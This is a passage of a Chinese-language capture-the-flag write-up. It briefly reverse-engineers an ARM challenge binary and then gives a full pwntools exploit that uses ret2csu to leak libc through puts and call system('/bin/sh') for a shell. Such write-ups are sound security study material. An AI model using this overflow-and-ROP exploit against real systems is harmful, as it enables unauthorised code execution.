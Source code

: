 ```bash
    printf("comment> ");
    return read(0, v2, 256u);
  }
  return result;
}
```

逆向分析一下，malloc 申请 0x80 的空间存储输入的 msg 的值，s 同理

这里利用 strcmp() 进行比较，如果 res 与 Sp5jS6mpH6LZC6GqSWe=相等，那么就会提示我们输入内容，利用 read() 进行读取我们输入的内容

其实就是利用 ret2csu 的打法泄露 libc 基地址，将 system，binsh 利用 read 写入之后再调用从而 getshell

exp:

```bash
from pwn import *
p = process(["qemu-arm","-g", "1212","-L", "/usr/arm-linux-gnueabi/", "./chall"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./chall'])
#p = remote('47.108.29.107',10244)
context.log_level='debug'
context.arch='arm'

elf = ELF('./chall')
libc = ELF('./libc-2.27.so')
#context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

sla('msg> ','s1mpl3Dec0d4r')
r4 = 0x00010cb0
r3 = 0x00010464
movcall = 0x00010ca0
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
leak('puts',puts_plt)
ret_addr=0x0010B60

pl = b'a'*0x2c+p32(r4)+p32(0)+p32(0)+p32(0)+p32(puts_got)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(puts_plt)+p32(movcall)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(ret_addr)
pause()

p.sendlineafter('comment> ',pl)

libcbase = uu32(r(4)) - libc.sym['puts']
leak('libcbase',libcbase)

system = libcbase + libc.sym['system']
binsh = libcbase + next(libc.search(b"/bin/sh\00"))

sla('msg> ','s1mpl3Dec0d4r')

pl = b'a'*44+p32(r4)+p32(0)+p32(0)+p32(0)+p32(binsh)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(system)+p32(movcall)

p.sendlineafter('comment> ',pl)
```